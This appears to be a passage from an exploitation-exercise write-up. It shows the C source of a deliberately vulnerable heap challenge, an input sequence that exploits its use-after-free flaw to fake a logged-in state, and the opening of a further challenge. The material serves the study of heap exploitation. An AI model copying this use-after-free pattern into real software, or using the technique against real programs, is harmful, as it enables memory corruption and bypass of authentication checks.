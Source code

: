 ```
struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

### ExploitCode
```
[ auth = (nil), service = (nil) ]
auth corn
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

## Heap3
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

```